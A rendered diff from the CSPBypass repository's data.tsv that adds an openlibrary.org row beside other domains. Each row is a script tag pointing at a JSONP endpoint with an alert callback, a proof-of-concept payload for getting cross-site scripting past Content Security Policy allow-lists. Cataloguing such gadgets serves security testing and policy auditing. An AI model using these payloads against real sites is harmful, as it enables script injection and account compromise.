

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Added openlibrary.org

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -211,2 +211,3 @@ onesignal.com	<script src="https://onesignal.com/api/v1/sync/0a5d329d-664d-4253-
 openexchangerates.org	<script src="https://openexchangerates.org/api/latest.json?app_id=4a363014b909486b8f49d967b810a6c3&callback=alert(document.domain)"></script>
+openlibrary.org	<script src="https://openlibrary.org/books/OL7353617M.json?callback=alert"></script>
 openx.com	<script src="https://openx.com/wp-json?_jsonp=window.alert"></script>
```
